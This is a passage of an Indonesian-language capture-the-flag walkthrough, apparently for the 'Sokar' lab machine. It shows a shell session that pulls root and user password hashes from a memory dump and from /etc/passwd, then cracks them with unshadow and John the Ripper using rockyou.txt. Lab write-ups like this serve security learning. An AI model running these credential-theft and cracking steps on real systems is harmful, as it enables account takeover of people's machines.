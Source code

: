~~~~
sh-4.1$ strings /tmp/ram | grep "apophis"
apophis:$6$0HQCZwUJ$rYYSk9SeqtbKv3aEe3kz/RQdpcka8K.2NGpPveVrE5qpkgSLTtE.Hvg0egWYcaeTYau11ahsRAWRDdT8jPltH.:16434:0:99999:7:::
apophis
apophis:x:502:
apophis.
apophis
apophis.
apophis
apophis
apophis
apophis
apophis
apophis
apophis
apophis

sh-4.1$ strings /tmp/ram | grep "root:"
strings /tmp/ram | grep "root:"
root:$6$cWQYjirZ$rADNjUFSiHmYp.UVdt4WYlmALhMXdkg9//9yuodQ2TFfiEWlAO0J6PRKesEfvu.3dfDb.7gTGgl/jesvFWs7l0:16434:0:99999:7:::
chown root:root /tmp/.ICE-unix
Hroot:x:0:
chown root:root /tmp/.ICE-unix
chown root:root /tmp/.ICE-unix
root:x:0:
"new_root: 0x%08lx, put_old: 0x%08lx", ((unsigned long)(REC->new_root)), ((unsigned long)(REC->put_old))
~~~~

Ada! Hasilnya mungkin akan berbeda-beda tergantung kondisi memory saat itu. Tapi yang penting kita dapatkan [ini](shadow "/etc/shadow"):

~~~~
apophis:$6$0HQCZwUJ$rYYSk9SeqtbKv3aEe3kz/RQdpcka8K.2NGpPveVrE5qpkgSLTtE.Hvg0egWYcaeTYau11ahsRAWRDdT8jPltH.:16434:0:99999:7:::
root:$6$cWQYjirZ$rADNjUFSiHmYp.UVdt4WYlmALhMXdkg9//9yuodQ2TFfiEWlAO0J6PRKesEfvu.3dfDb.7gTGgl/jesvFWs7l0:16434:0:99999:7:::
~~~~

dump [/etc/passwd](passwd "/etc/passwd") dan fokuskan ke apophis dan root.

~~~~
sh-4.1$ grep -E '^apophis|^root' /etc/passwd
grep -E '^apophis|^root' /etc/passwd
root:x:0:0:root:/root:/bin/bash
apophis:x:501:502::/home/apophis:/bin/bash
~~~~

Gunakan John The Ripper dengan wordlist rockyou.txt untuk cracking. Aku gunakan 8 process untuk crack. Selamat berjuang CPU!

~~~~
# unshadow passwd shadow > sokar.db
# john --wordlist=/usr/share/wordlists/rockyou.txt --fork=8 sokar.db
~~~~
